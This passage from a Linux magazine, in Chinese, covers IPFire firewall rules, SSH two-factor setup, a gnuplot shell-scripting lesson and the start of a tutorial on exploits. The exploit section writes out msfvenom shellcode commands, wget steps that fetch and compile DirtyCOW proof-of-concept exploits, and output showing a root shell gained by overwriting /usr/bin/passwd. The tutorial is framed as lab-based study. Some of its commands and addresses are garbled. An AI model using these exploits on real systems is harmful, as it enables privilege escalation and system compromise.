设置完成后，IPFire 将重启并加载防火墙。你将看到 IPFire 控制台。如果你愿意，可以以 root 身份登录，使用之前选择的密码，然后运行 ifconfig 以检查你的接口是否正常。

你可以从任何连接到网络的设备访问网络界面，打开网络浏览器并输入 https://ipfire.localdomain:444。由于 IPFire 使用自签名证书，你可能需要确认一个安全例外。输入用户名 admin 和之前选择的密码以显示网络界面。



### 09 配置防火墙

网络界面很容易操作。花些时间熟悉一下，以使用 IPFire 的入侵检测系统或设置 VPN。目前，点击“防火墙 > 防火墙规则 > 新规则”。布局相当容易理解。例如，如果你希望强制客户端阻止所有外部 DNS 服务器以防止 DNS 劫持，请在“标准网络”菜单中选择绿色，表示你只希望使用 IPFire 的 DNS 代理。在同一菜单的“目的地”部分选择红色。最后，在“协议”下选择 DNS，并确保“拒绝”处于高亮状态。有关各种配置的详细说明，请查阅 IPFire 的防火墙文档，地址为：[wiki.ipfire.org/en/configuration/firewall/start]。

## 使用 Google 身份验证器保持安全

通过两步验证，轻松保护你的 SSH 连接


对于系统管理员来说，通过 SSH 连接服务器是进行更新和修改文件的日常操作的一部分，但这可能会使系统容易受到攻击。

虽然你可以通过遵循一些 SSH 最佳实践来降低这种情况发生的概率，例如禁用 root 登录、更改默认的 SSH 端口并使用长密码，但前述工具（特别是 Sparta）展示了漏洞端口是多么容易被扫描，以及密码是多么容易被暴力破解。

即使使用 fail2ban 等程序来限制失败的登录尝试或禁止某些 IP 一段时间，也并非万灵药，因为许多攻击工具可以执行多个并行任务。

通过 Google 身份验证器可以大幅提高你的 SSH 服务器的安全性。该应用程序使用基于 TOTP（基于时间的一次性密码）算法的两步验证服务。验证器与移动应用程序协同工作，提供 6-8 位的一次性密码，作为用户名和密码之外的必要验证。请注意，我们的指南假设你使用的是 OpenSSH 服务器，它是几乎所有 Linux 版本的标准。

### 01 安装

对于基于 Debian 的服务器，运行：

```
apt-get install libpam-google-authenticator libpam0g-dev
```

...尝试从存储库中安装验证器和相关软件。Red Hat、Fedora 和 CentOS 用户应运行：

```
yum install pam-devel google-authenticator
```

如果 Google 身份验证器不存在于你的发行版的存储库中，你可以从 github.com/google/google-authenticator 下载并使用 make 命令进行编译。

PAM（可插拔认证模块）也必须从 github.com/google/google-authenticator-libpam 下载并编译。

如果你尚未安装 'ntp' 守护进程，请考虑安装它，以确保系统时间正确，因为身份验证器使用基于时间的代码。


### 02 生成私钥

首先，运行 google-authenticator 命令。按‘y’表示你希望认证令牌基于时间。

接下来，身份验证器将显示有关你秘密密钥的信息，以及一个你可以用移动应用程序扫描的二维码。你还会看到紧急的“备用”代码，如果你无法访问移动设备，可以使用这些代码登录。

在继续之前，请将此信息记录在安全的地方，然后按‘y’以更新你的主文件夹。



### 03 完成 Google 身份验证器偏好设置

身份验证器接下来会询问你是否希望禁止多次使用同一个认证令牌。正如身份验证器所陈述的，选择此选项会使中间人攻击变得更加困难。你可以在下一步增加令牌有效的 30 秒时间间隔（如果你希望如此）。

最后，如果你尚未安装 fail2ban 等程序来防止暴力破解攻击，请考虑按‘y’以启用速率限制。这将攻击限制为每 30 秒不超过三次登录尝试。


## 配置 SSH 使用 Google Authenticator

在文本编辑器中打开 `/etc/ssh/sshd_config` 文件。向下滚动找到 `ChallengeResponseAuthentication no` 这一行，并将其更改为 `ChallengeResponseAuthentication yes`。保存该文件。

接下来，编辑文件 `/etc/pam.d/sshd` 并在文件最底部添加以下行：

```
auth required pam_google_authenticator.so
```

现在必须重启 SSH 服务以应用新的更改。运行 `/etc/init.d/ssh restart` 来执行此操作。如果你的 SSH 服务器尚未运行，请使用 `service sshd start`。



## 设置移动端 Authenticator 应用程序

使用你的智能手机或其他便携设备，访问 Google Play 或 iTunes 商店，安装官方的 Google Authenticator 应用程序或其变体之一，例如由 Red Hat 维护的 FreeOTP。

Android 版的 Google Authenticator 应用程序是闭源的，因此从安全角度来看，FreeOTP 更好。你可以扫描之前生成的二维码，或者手动添加 `secret` 密钥。这些令牌是基于时间的。如果你在 FreeOTP 的 Provisioning 部分手动添加密钥，只需在 ID 部分输入 `user@address` 即可。在 Google Authenticator 中，你会在 Account Name（账户名称）下输入此信息。



## 通过 SSH 测试登录

一旦你的移动应用程序设置完成，你会看到正在生成基于时间的六位数字代码。在另一台设备上，打开终端并运行 `ssh user@yourIP`。

如果这是你第一次通过 SSH 连接到服务器，请输入“yes”以验证密钥指纹。系统会要求你以通常的方式输入密码。

接下来，系统将要求输入你的六位验证码。输入此代码以登录服务器。切换用户，并为任何希望通过 SSH 登录的其他用户重复这些步骤。



## 备份你的私钥

虽然你已经将私钥和备用代码安全地写在安全的地方，但为了安心，建议使用 `cp` 命令将 `~/.google_authenticator` 中的 Google Authenticator 文件复制到安全介质中。

出于安全原因，Google Authenticator 在首次运行后没有任何方法可以重新生成包含你私钥的二维码。安装程序 `qrencode` 可以生成你可以在其他设备上打开的图片。安装完成后，可以使用以下命令创建图像：

```
qrencode -o qrcode.png 'otpauth://totp/ACME:john.doemail.com?secret=HXDMVJECTWSRB3HWI2R4FIGJFTXN06O2&issuer=ACME&algs=&time=1&period=30'
```

用你自己的数据替换 `ACME`、`john.do@email.com` 和密钥。


## 要求控制台登录使用双重认证

这一步是可选的，但可用于保护服务器本身的控制台登录。在你喜欢的文本编辑器中，只需打开 `/etc/pam.d/login` 并在底部添加与 SSH 配置中相同的行：

```
auth required pam_google_authenticator.so
```

请记住，如果攻击者能够物理访问你的机器，他们可能会针对 root 账户或安装硬件键盘记录器，因此这不像首先控制对服务器的物理访问那样有效。



## 绕过本地网络的双重验证

如果你发现在通过本地网络连接时提供验证码很累人，可以配置 Google Authenticator 来忽略这些地址。

编辑文件 `/etc/pam.d/sshd` 并替换以下行：

```
auth required pam_google_authenticator.so
```

替换为：

```
auth [success=1 default=ignore] pam_access.so accessfile=/etc/security/access.conf
auth required pam_google_authenticator.so nologo
```

接下来，编辑 `/etc/security/access.conf` 并添加以下行：

```
two-factor auth can be skipped on local network
+ : All : 192.168.0.1/24
+ : All : LOCAL
- : All : ALL
```

用你想要的 IP 地址范围替换 `192.168.0.1/24`。



## 订阅并节省 25%*

每一期都直接送到你家门口

- 不要错过每一期
- 每年 13 期，确保你能拿到每一期
- 送货上门
- 每一期免费送货，直接送到你的门口
- 获得最大折扣
- 直接订购让你以最优惠的价格获得你最喜爱的杂志

## 我们的读者怎么说…

> “我今天才发现这本杂志。它太棒了，正是我在寻找的东西。我惊呆了！”
> Donald Sleightholme 通过 Facebook

> “@LinuxUserMag 刚邮寄到了。哇，这期太精彩了！我正准备开始玩 mini-pc 和焊台。谢谢”
> @businessBoris 通过 Twitter

> “感谢提供一本很棒的杂志。我现在已经是多年的定期订阅者了。”
> Matt Caswell 通过电子邮件


## 选择适合你的订阅方式

## 最灵活的选择

## 订阅并节省 25%

- 1. 自动续费 – 不要错过每一期
- 2. 通过直接借记付款

每期 6 期支付 £26.95，比零售价节省 25%

| 字段 | 输入 |
| :--- | :--- |
| 银行名称 | |
| 银行地址 | |
| 排序码 | 邮编 |
| 账户名称 | 邮编 |
| 账号 | |
| 签名 | 日期 |

请通过本指令中详述的账户，从 Imagine Publishing Limited 扣除直接借记款项，受直接借记保证的保护：我理解此指令可能保留在 Imagine Publishing Limited 处，如果是这样，详情将以电子方式传递给我的银行。银行和建筑协会可能不接受某些类型账户的直接借记指令。

## 超值优惠

## 一年订阅

- 1. 优惠套餐，全球可用
- 2. 一次性付款，通过卡或支票

简单的一次性付款确保你在一整年内不要错过任何一期。那是 13 期，直接送到你的门口

- 英国 £62.40（比零售价节省 20%）
- 欧洲 £70
- 美国 £80
- 世界其他地区 £80

## 通过卡或支票付款

通过信用卡或借记卡付款

- Visa
- Mastercard
- Amex

- 1. 卡号
- 2. 有效期

| 字段 | 输入 |
| :--- | :--- |
| 通过支票付款 | | 我附上一张支票，金额为 | £ | | 收款人填写 | Imagine Publishing Ltd |
| 签名 | 日期 |

## 你的信息

| 字段 | 输入 |
| :--- | :--- |
| 姓名 | |
| 地址 | |
| 电话号码 | 手机号码 | |
| 电子邮件地址 | |
| | 邮编 |

如果你不希望收到来自 Imagine Publishing Ltd 的任何宣传材料，请勾选 
通过邮件 
通过电话 
通过电子邮件 

如果你不希望收到来自其他公司的任何宣传材料，请勾选 
通过邮件 
通过电话 

如果你希望通过电子邮件接收此类信息，请勾选

请将此表格邮寄至 
LINUX USER & DEVELOPER 订阅部, 800 Gullit Avenue, Kent Science Park, Sittingbourne, Kent ME9 8GU

## 安全在线订购 www.imaginesubs.co.uk/lud

输入促销代码 PS17 以享受这些超值优惠


联系我们的友好客户服务团队
致电 0844 249 0282

这些优惠将在 2017 年 4 月 30 日周日过期

请注明代码 PS17
通话费用为每分钟 7 便士，外加你电话公司的接入费。

## Bash 大师课

## 结合 Shell 脚本和图表

利用 gnuplot 的强大功能，将你的文本信息转换为吸引人的图表


**Tam Hanna** 在为一台 DS-8612 示波器拼凑出一个原始的数字荧光余辉功能后，开始对华丽的图表产生了一种奇特的喜爱。从那以后，他一直试图寻找让信息更易获取的方法。

Tim van Baveren 对航空安全事故的研究揭示了一个令人极度不适的事实：人类不太擅长处理文本，而在提供图形输入时表现要得多。这一点在飞机系统以数字序列显示信息时尤为重要，而这些信息并没有着色或标记额外的视觉信息，如底层的柱状图。

尽管平均的系统脚本——过程式计算机不在本教程讨论范围内——不像飞行员做出的错误决定那样关键，但向用户提供大块文本并非特别经济，并会导致可以避免的错误。

幸运的是，从 shell 脚本创建图形并不是一项困难的任务。gnuplot 程序，长期以来一直是各种 UNIX 发行版的一部分，提供了多种有趣的图形选项，对于经常使用 Linux 终端的人来说应该非常熟悉。因此，它是我们探索迷人的 shell 编程领域的旅程中一个非常合适的最后一站。

由于 gnuplot 并不是每天都使用的工具，大多数发行版默认不包含它。幸运的是，通过 `apt-get` 命令可以很容易地安装它：

```
$ sudo apt-get install gnuplot
[sudo] password for [username]:
```

基本命令仅包含本地渲染逻辑。显示数据可以通过安装 Qt 或 X11 包来实现 – 作者强烈推荐以下实用工具：

$ sudo apt-get install gnuplot-qt
Reading package lists... Done

在此之后，可以通过在终端窗口中输入其名称来以交互模式启动 gnuplot。首次调用 Gnuplot 看起来像这样：

$ gnuplot
    GNUPLOT
    ... 
    Terminal type set to 'x11'

默认情况下，gnuplot 启动时其图形终端选项设置为 x11：这意味着每当有图形要显示时，都会显示一个弹出窗口。我们的第一个示例使用 plot 命令，该命令接受一个或多个函数，然后显示出来：


- **资源**
  - Bash
    - gnu.org/software/bash/bash.html
  - gnuplot
    - http://www.gnuplot.info/

教程文件获取：filesilo.co.uk


上述 gnuplot 可用于绘制常用数学函数

```
gnuplot

  G N U P L O T
 ...
  Terminal type set to 'wx'
  gnuplot> plot sin(x)
```

输入打印出的命令序列后，将弹出显示图 1 内容的窗口。

虽然这并不是一个丑陋的选项，但该产品的功能远不止于此。这是通过设置状态变量实现的；gnuplot 程序即使在交互模式下也并非完全无状态。一种尝试方法涉及以下命令序列，理想情况下应在启动 gnuplot 后立即输入：

```
gnuplot> set grid
  gnuplot> plot sin(x), cos(x)
  gnuplot>
```

完成后，您将看到图 2 所示的输出。显然，set grid 命令促使程序在任何渲染图表的背景中显示网格。请注意，Ctrl+Q 不会退出 gnuplot 应用程序——只有输入 quit 命令并回车才能返回操作系统。

欢迎在此

尽管直接运行 gnuplot 是一种在屏幕上生成图表的有趣方式，但 shell 脚本如果能够通过一组在

> 人类不太适合处理文本，而在提供图形输入时表现更佳


上述 设置网格属性通过包含背景网格来增强图表输出

创建脚本文件期间定义的参数批量控制执行，效果会更好。将长序列文本嵌入 shell 脚本最好通过 here document（此处文档）的概念来处理：它是一组语法标记，允许您将长字符串嵌入 shell 脚本。从以下演示其用法的示例开始：

```
#!/bin/bash

gnuplot <<EOFTHISDOC
  set terminal wx
  plot sin(x), cos(x)
  EOFTHISDOC
```

在 Bash 中，包含 HERE 文档的 shell 脚本通过指定的启动序列开始。这组字符——在我们的例子中，我们使用 END OF THIS DOC——必须包含一个在实际文档内找到的文本内容中不出现的东西。相反，它应作为另一端的分隔符。在我们的例子中，here 文档由 set terminal 和 plot 命令组成，通过 <& 命令传递给主要的 gnuplot 调用。

运行当前版本的程序会导致令人不满意的结果。包含图表的窗口会短暂弹出，然后立即消失。这种愚蠢的行为是由 gnuplot 的一个小怪癖引起的——默认情况下，一旦主应用程序达到脚本输入的末尾，它便会从屏幕上移除所有图表窗口。

幸运的是，传入 –persist 参数允许您改变这种行为。我们这个小图表程序的一个正常工作版本看起来像这样：

```
#!/bin/bash

gnuplot –persist <<EOFTHISDOC &
  set terminal wx
  plot sin(x), cos(x)
  EOFTHISDOC
```

运行这个版本的程序，您会发现面前是一个显示正弦和余弦的图表——这是一个用于教授更多三角函数知识的绝佳工具。

## 偏离主题！

实际上，Gnuplot 的名称具有误导性：该产品并非在 GPL 许可证下分发，而是使用不同的许可制度，该制度不允许重新分发修改后的源代码包。开发者必须改为发布可以应用于官方发布版本的程序代码的补丁。

## 教程 | Bash 大师课


> **线性化我**
> 在某些情况下，将一组值转换为函数是有用的，因为它允许使用由函数生成的额外数据创建更复杂的模型。这是一个高度数学化的主题，通常需要专门研究——O'Reilly 的书 *Mastering Algorithms in C* [http://ahop.oreilly.com/product/07811565924536.do] 包含对多项式插值过程相当好的、易于理解讨论。

## 文件连珠！

在大多数情况下，需要显示的数据并不采取简单函数的形式；相反，它们往往以一系列值的出现，必须通过相应的命令行函数传递给 gnuplot。

将此类信息嵌入脚本并不是特别令人满意——创建自我修改的 shell 脚本本身是一门艺术，我们无法在单篇文章的范围内讨论它。幸运的是，gnuplot 也可以从 _.pub_ 文件中接收绘图数据。让我们通过创建一个名为 datasource.txt 的文件，并用取自贵金属巨头 KitCo 的一些数据来填充它，以此为例进行演示（数据取自 [http://www.kitco.com/gold.londonfx.html]。

| 1 | 1236.45 | 18.59 |
|---|---|---|
| 2 | 1267.5 | 18.75 |
| 3 | 1281.4 | 18.81 |
| 4 | 1282.35 | 18.86 |
| 5 | 1283.05 | 18.22 |
| 6 | 1302.8 | 18.3 |
| 7 | 1301 | 18.87 |
| 8 | 1303.75 | 18.54 |
| 9 | 1288.45 | 18.24 |
| 10 | 1272 | 17.76 |

乍一看文件的结构，我们发现有三列：除了处理序列号外，还有连续十个交易日的白银和黄金价格。使用以下代码片段即可在朴素图表中显示此信息：

```
#!/bin/bash

gnuplot -persist <<ENDOFTHISDOC &
  set terminal wx
  plot 'datasource.txt' using 1:2, 'datasource.txt'
    using 1:3 with lines
  ENDOFTHISDOC
```

这里有两件事很有趣。首先，文件名使用 _-monitor 来指定目标文件名进行传递。其次，我们指定使用哪些列号作为两个变量。由于我们要用黄金信息创建一条曲线，用白银信息创建另一条曲线，因此使用两个 using 命令，并用逗号运算符将它们连接起来。

完成后，运行程序——其输出将与图中所示类似。

这是图表中的一个常见问题：如果要显示的数值范围差异很大，使用公共轴会导致问题。在我们的图表中，黄金价格信息看起来不错，但较小的白银价格数据被压缩了。

幸运的是，修复这个问题非常容易；修改 here 文档，强制 gnuplot 使用两个独立的轴：

```
#!/bin/bash

gnuplot -persist <<ENDOFTHISDOC &
  set terminal wx
  plot 'datasource.txt' using 1:2, 'datasource.txt'
  using 1:3 with lines
ENOFTHISDOC
```

**上方** 如果两个数据集的值差异很大，无法高效地使用一个轴来显示

我们的示例将生成一个以某种合理格式显示两条价格曲线的图表；遗憾的是，仅显示黄金价格的轴信息。这位作者的一位长期导师——拥有奥地利最负盛名研究所之一的物理学博士学位——曾因技术原因让本故事作者不及格；他的图表缺乏轴描述，因此是“无意义的”。虽然这可能显得有点极端，但为图表添加上下文有助于防止误读。

可以想象，这在 gnuplot 中通过以下修改轻松实现：

```
#!/bin/bash

gnuplot -persist <<ENDOFTHISDOC &
  set terminal wx
  set y2label 'Gold'
  set y2label 'Silver'
  set xlabel 'Trading days'
  set y2tics autoref
  plot 'datasource.txt' using 1:2 axes x2y2 with lines
  'datasource.txt' using 1:3 axes x2y2 with lines
  ENDOFTHISDOC
```

我们通过使用 _x-_ 和 _ylabel_ 命令开始，为轴分配文本描述。接下来，将 _y2tics_ 属性设置为 _autofreq_：这指示 gnuplot 使用其内部逻辑找到最佳步长值。此外，它还覆盖了默认设置：如果任由 gnuplot 自行处理，它将在图表的第一个轴上显示刻度。

至此，是时候最后一次运行我们的独立示例了。下图展示了您可以预期的结果。

## 将文件移除！

只要 shell 脚本是交互式运行，显示图表就是有趣的——如果您的脚本是离线的，创建可以通过电子邮件或 SCP 传输分发的文件会更有趣。

这可以通过重定向 gnuplot 的终端实例来实现，使其将信息输出到文件而不是显示在帧缓冲器上的窗口。让我们通过修改之前的金属图表程序来做到这一点——一个为简洁起见省略状态变量代码的愉快精简版本看起来像这样：


以下是这段数据，数字可能会因环境而异：

```
root@amihan-thinkpad:~/Desktop/Deadstuff/2016Nov/April$ bash# cat_pingstore.dat
cof
50.7
50.3
204
53.5
50.4
51.0
50.9
57.8
50.0
53.0
```

```
#!/bin/bash

gnuplot <<ENDOFTHISDOC &
set terminal png
set output 'goldchart.png'
 plot 'datasource.txt' using 1:2 axes x1y1 ... 
ENDOFTHISDOC
```

这次调用 gnuplot 的方式与常规做法不同，因为它首先将终端设置为 png，从而指示程序将绘图输出到 PNG 文件。随后使用 `set output` 来指定要生成的文件名，之后即可发出其他命令。运行后，包含该 shell 脚本的文件将生成一个图形文件。然后，可以使用任意首选的文件传输命令将其转发至最终目的地。

## 不同的数据

现在，既然你在运行时已将单独的 .pub 文件加载到 gnuplot 中，我们便可以改变程序的行为，以输出主 shell 脚本在执行过程中收集的数据。一个好的例子就是绘制显示到服务器 ping 时延的图表——假设网络连接始终稳定，我们可以认为发送 10 个数据包大约需要 10 秒。这使得 ping 成为本教程最终绘图应用的理想候选对象——展示连接可靠性随时间变化的历史趋势为你的数据增添了额外的含义。

遗憾的是，ping 的输出无法直接用于绘图：gnuplot 期望的是均匀的数值，且不太可能直接解析其输出。管道可以解决这个问题——`awk` 工具允许你轻松提取文本中的特定部分。例如，以下行代码将提取相关列：

```
ping -c 10 www.google.fr | awk -F '[ ]' '(print $[NF-1])' > pingstore.dat
```

运行后，对于本文作者而言，文件 pingstore.dat 中将包含该产品的 man 手册页中的时间。但对于普通用户来说，本文讨论的操作说明已经足够使用了。

幸运的是，这个问题可以通过 `grep` 解决。按所示方式调用时，该程序将限制其输出为纯数字数据：

```
ping -c 10 www.google.fr | awk -F '[ ]' '(print $[NF-1])' | grep -E “[0-9]” > pingstore.dat
```

至此，还剩一个问题需要解决，即对数据文件内容进行绘图：

```
#!/bin/bash

ping -c 10 www.google.fr | awk -F '[ ]' '(print $[NF-1])' | grep -E “[0-9]” > pingstore.dat

gnuplot -persist <<ENDOFTHISDOC &
plot ‘pingstore.dat’ with lines
ENDOFTHISDOC
```

我们的最后一个示例比较特殊，因为它只是向 gnuplot 提供 pingstore.dat 文件并指示其使用线条进行绘制操作。gnuplot 的内部算法将为 X 轴生成一个数值序列，从而确保图表看起来美观。

关于 Gnuplot 已经写过一整本书了——经常做图表的人绝对应该花点时间阅读该产品的 man 手册页。然而，对于普通用户而言，本文讨论的操作说明已经绰绰有余。

至此，我们穿越 shell 脚本领域的旅程也就此结束。尽管我们涵盖了大量内容，但这远非关于 shell 脚本所能讲述的全部内容。如果你发现自己反复执行某种任务，你肯定应该考虑寻找一个 shell 脚本来处理它——得益于 UNIX 管理者的开放性和乐于分享的特质，简单的 Google 搜索很可能会带来超出你狂野想象的结果。

## 教程

# 漏洞利用

## 在受控环境中分析、调整并运行漏洞利用

直接运行现成的漏洞利用程序是一项冒险的业务：它可能导致系统完全崩溃。


Toni Castillo Girona 拥有软件工程学士学位，并作为信息通信技术（ICT）研究支持专家在西班牙加泰罗尼亚地区的一所公立大学工作。他定期在他的博客 disabaues.upc.es 上撰写关于 GNU/Linux 的文章。


*上方图示：通过执行基于 tprobe 的漏洞利用程序，我们可以重写 /usr/bin/passwd 并获得 root shell*

近期出现了许多危险的安全漏洞，其中大多数可以通过执行不同的概念验证（PoC）脚本进行利用。其中一些甚至配有引人注目的名字（例如 DirtyCOW）。有时这些 PoC 可以直接运行，但有时则不能。因此，如果某个 PoC 没有产生预期结果，并不意味着它没有以某种方式影响系统。如果你执行了漏洞利用程序但它不起作用，可能是因为特定的系统不受影响，或者该 PoC 需要调整。最坏的情况是：漏洞利用程序损坏了系统。这就是为什么你需要分析漏洞利用程序的实际运作方式，理解其基于的漏洞，并在受控环境中（例如虚拟机）执行它。本教程将通过对最新出现的三个漏洞（截至撰写时）——CVE-2016-5195、CVE-2016-663 和 CVE-2016-8664 进行操作，并提供 shellcode 的简要逐步指南，从而为你提供对漏洞利用程序的总体理解。漏洞利用程序用各种编程语言编写：C、Perl、Python、Ruby... 甚至 Bash。分析特定的漏洞利用程序，然后使用你喜欢的语言重新编码它以证明你理解了其功能，是一个好主意。

shellcode（在某些时间点并通过不同技术）被传递到存在漏洞的应用程序。你可以从头编写 shellcode，也可以使用 msfvenom（Metasploit 框架中的一个工具）来生成。WebSecurity Dojo 架构是 x86，因此让我们生成一个将生成新 shell 的 ELF32 二进制文件。在你的 Kali Linux 终端中输入以下内容：

```
msfvenom -p linux/x86/exec -a x86 chmod=/bin/bash PrependSetuid=True -f elf > myshell1
```

试一试：将文件复制到你的 WebSecurity Dojo 虚拟机：

```
scp myshell1 dojo@YOUR_DOJO_IP:
```

在 WebSecurity Dojo 内部，你需要输入这些命令来获取所有者权限，并最终在 myshell1 上设置执行位和粘滞位。

```
sudo chown root:root myshell1
sudo chmod 4755 myshell1
```

以用户 dojo 身份执行它，你将获得一个新的 root shell。

```
./myshell1
bash-4.2#
```

## 将 shellcode 转换为 C 字符缓冲区（十六进制操作码）

你可以让 msfvenom 以不同的格式输出有效载荷。使用前文提到的 elf 格式，我们实际上是在生成一个可以直接运行的 Linux 可执行文件。你可以尝试其他格式并观察其结果（-h）。在 PoC 脚本中嵌入 shellcode 很常见。这个 PoC 可以用 C、Python 或其他任何语言编写。因此，你需要相应地调整有效载荷格式，使其能完美嵌入你的 PoC 中。假设你希望将之前生成的有效载荷中的所有字节转换为 C 字符缓冲区。为此，在 WebSecurity Dojo 中输入以下内容：

```
xxd -i myshell1
```

myshell1 的逐字节表示将以 C 字符数组及其长度的形式输出：

```
unsigned char myshell1[] = {  0x7f, 0x45, 0x4c, 0x46, 0x01...  };
unsigned int myshell1_len = 136;
```


- WebSecurity Dojo 安装 [bit.ly/2vdfxf](bit.ly/2vdfxf)
- Kali Linux 安装 [bit.ly/2Y03ks](bit.ly/2Y03ks)
- Msfvenom [bit.ly/1R3GaM](bit.ly/1R3GaM)
- DirtyCOW [bit.ly/2Y0ks](bit.ly/2Y0ks)
- Ptrace [bit.ly/1stOb70](bit.ly/1stOb70)
- JD-GUI [http://jd.benbow.ca/](http://jd.benbow.ca/)
- MySQL CVE-2016-6663 [bit.ly/2e5enu4](bit.ly/2e5enu4)
- MySQL CVE-2016-8664 [bit.ly/2e2hrKf](bit.ly/2e2hrKf)
- MySQL 系统崩溃视频 [tinyurl.com/2zdeikz](tinyurl.com/2zdeikz)

## 准备你的测试实验室

首先：你不希望在真实的计算机上到处执行漏洞利用程序！你需要先设置一个测试实验室。要跟随本教程，你必须安装两个虚拟机（VM）：WebSecurity Dojo 2.0 和 Kali Linux（参见参考资料）。一旦这两个 VM 都启动并运行，请在两个 VM 中打开一个新 shell 并继续阅读！

## 生成 shellcode

Shellcode 通常出现在漏洞利用程序中。它是机器代码，


## 将 Shellcode 转换为汇编语言

通常情况下，你会使用由他人编写的漏洞利用代码。该漏洞利用代码中可能包含 shellcode。在运行之前，你必须理解该 shellcode！前往 Kali Linux 并生成一个新的 C 格式 shellcode：

```
msfvenom -p linux/x86/exec -a x86 CMD=/bin/bash
PrependSetuid=True -f c > myshell
```

现在打开你喜欢的 ASCII 编辑器并创建一个新的 C 源文件。写下以下内容（用上一条命令的输出替换占位符）：

```
#include <stdio.h>
<FAST_THE_SHELL_CODE_HERE>
void main(int argc, char **argv) { }
```

将其保存为 exploit.c。编译它，然后在 gdb 会话中打开二进制文件：

```
gcc exploit.c -o exploit
gdb -q exploit
```

shellcode 位于 `buf` 指向的地址处。在 gdb 中对该特定地址使用 `disassemble` 命令以获取漏洞利用代码：

```
(gdb) disas 8&uf
0x0804-8040   <+0> : xor %ebx, %ebx
0x0804-8042   <+2> : push $0x17
0x0804-8044   <+4> : pop %eax
0x0804-8045   <+5> : int $0x80
```

由于 `&buf` 指向一串操作码，gdb 在反汇编它们时毫无困难！

## 使用 DirtyCOW 覆盖文件

DirtyCOW 是一个内核竞态条件漏洞，允许任何非特权用户写入任何只读文件（甚至包括属于其他用户（如 root）的文件）。因此，通过覆盖 SUID root 二进制文件，它可能导致权限提升。WebSecurity Dojo 2.0 易受 DirtyCOW 影响。让我们来玩玩这个漏洞：使用 WebSecurity Dojo 下载第一个漏洞利用程序：

```
wget --no-check-certificate https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtycow.c
```

该漏洞利用程序是用 C 语言编写的，因此你必须编译它：

```
gcc dirtycow.c -o dirtycow -pthread
```

现在，在执行漏洞利用程序之前，通过按下右 CTRL+T 对 VM 进行快照；这样，如果出现问题，你将能够恢复之前的 VM 状态。这个 PoC 将允许你将字符串写入一个由 root 拥有且你只有只读权限的文件。首先，创建该文件并放入一些文本：

```
sudo echo "Root file" > test
sudo chmod 0404 test
```

现在，运行漏洞利用程序：

```
./dirtycow test "HELLO"
...
process1mem -100000000
```

如果你再次读取该文件，你会发现漏洞利用程序已失败。实际上，`test` 的内容完全没有被更改。漏洞利用程序的输出本身指出了错误可能在哪里：`process1mem -100000000`。使用你喜欢的 ASCII 编辑器打开漏洞利用程序的源代码，并查找 `process1mem` 字符串。该代码属于漏洞利用程序的两个线程之一：`processFimemThread`：

```
1 for(i=0;i<100000000;i++){
2  seekf((uintptr_t) map,SEEK_SET);
3  c+=write(f,str,strlen(str));
4  } printf("process1mem %d\n", c);
```

DirtyCOW 背后的想法是在两个线程之间触发竞态条件：一个线程调用 `madvise()`，另一个线程反复向映射到进程地址空间的文件写入，使用 `/proc/self/mem`。正如之前的输出所暗示的，负数意味着对 `write` 函数的每一次调用都失败了（第 3 行）。换句话说，显然你不允许向 `/proc/self/mem` 写入。然而，还有另一种向进程地址空间写入的方法：进入 `trace()`。现在让我们尝试第二个 PoC；先下载它：

```
wget --no-check-certificate https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
```

> 你需要分析该漏洞利用程序真正做了什么，并在受控环境（VM）中执行它。

编译它：

```
gcc -pthread pokemon.c -o pokemon
```

再次尝试覆盖 `test`：

```
./pokemon test HELLO
```

最后，读取 `test` 文件并感到惊叹：

```
cat test
HELLOfile
```

这次它起作用了，但为什么？我们无法直接写入 `/proc/self/mem`，所以新的漏洞利用程序使用 `ptrace()` 调用来实现相同的目标。除了有一个第二个线程


调用 **write()]**，现在第二个线程调用 **ptrace** 一次写入一个字节（第 4–6 行）到 `test` 副本映射的地址：

```
1    for(i=0;i<10000/1;++i)
2       for(r=0;r<1;++r)
3        for(r=0;r<10000/1;++r)
4        c=ptrace(PTRACE_POKETEXT,pid, map_0, *(long*)(argv[2]+0));
5
6        *(long*)(argv[2]+0));
```

该漏洞利用程序的编写方式遵循标准方法，即通过调用 **fork()** 和 **ptrace(PTRACE_TRACEME)** 从父进程调试子进程（参见参考文献）。利用此漏洞允许我们覆盖文件，但不允许向其中追加数据。

## 使用 DirtyCOW 获取 root shell

如果你将之前学到的关于 shellcode 的知识与 ptrace 技术相结合，你可以用 shellcode 覆盖任何文件。如果你覆盖的文件是 **SUID** root 文件，你将能够生成一个 root shell。去获取下一个漏洞利用程序：

```
| wget http://tinyurl.com/9c6b5zh -O cdw.c
```

编译并执行它：

```
| gcc cdw.c -pthread -o cdw ; ./cdw
```

此漏洞利用程序将 **/usr/bin/passwd** 复制到 **/tmp/bak**，然后用你使用 **msfvenom** 生成的 shellcode 覆盖它。结果，一旦任何用户执行命令 **passwd**，就会生成一个 root shell。尝试一下：

```
|-$ passwd
   Segmentation fault
```

哦！取决于你的 VM 能力，你可能会看到一个 root shell 而不是触发 **segfault**。为什么会 **segfault**？请记住，DirtyCOW 是一个竞态条件漏洞。你有两个线程在同一个核心上运行：如果 **madvise()** 在主进程调用 **ptrace()** 将 shellcode 的每个字节写入到 **passwd** 副本所在的地址之前完成，ELF 文件将损坏。在这种情况下，你必须增加 **madvise()** 线程的迭代次数：

```
| sudo cp /tmp/bak /usr/bin/passwd
  ./cdw
  passwd
  root@d0jo2:/home/d0jo# whoami
  root
```

将 *i* 变量的值更改为更大的值，例如 900000000（第 3 行），重新编译漏洞利用程序并再次尝试（别忘了从 **/tmp/bak** 恢复原始 **passwd** 文件）：

## 如何使用端口绑定 shellcode 覆盖 passwd

